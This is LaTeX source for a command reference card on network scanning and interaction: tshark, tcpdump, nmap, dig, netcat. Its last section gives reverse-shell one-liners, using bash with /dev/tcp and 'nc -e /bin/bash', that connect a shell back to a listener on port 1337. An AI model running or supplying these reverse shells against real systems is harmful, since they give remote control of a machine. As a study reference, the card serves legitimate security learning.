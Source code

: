 \documentclass{refcard}
\begin{document}
\begin{ldesc}
	 \$ cat /etc/services | grep 
\end{ldesc}

\subsection{Passive scanning}

\begin{ldesc}
	  \$ wireshark
	              \$ tshark -i  -f 
	              \$ tshark -D
	            \$ tshark -i wlan0 -f "port 80"
	                \$ man pcap-filter
	      \$ tcpdump
\end{ldesc}

\subsection{Active scanning}

\begin{ldesc}
	           \$ nmap [-sV -O -p ] 
	      \$ nmap [-sn] 192.168.0.*
	      \$ nslookup -query=txt 
	  \$ dig \I{[@srv]} 
\end{ldesc}

\subsection{Interacting}

\begin{ldesc}
	        \$ netcat host port
	     \$ ncat host port
	 \$ telnet host port
\end{ldesc}


\subsection{Reverse shell / Connect back}

\begin{ldesc}
	 client\$ netcat -vlp 1337
	     \$ sh >\& /dev/tcp/client/1337 0>\&1
	\li[\ \ (colored)]       \$ bash -i >\& /dev/tcp/client/1337 0>\&1
	    \$ netcat -e /bin/sh localhost 1337
	\li[\ \ (colored)]       \$ nc -e "/bin/bash -i" localhost 1337
\end{ldesc}
\end{document}
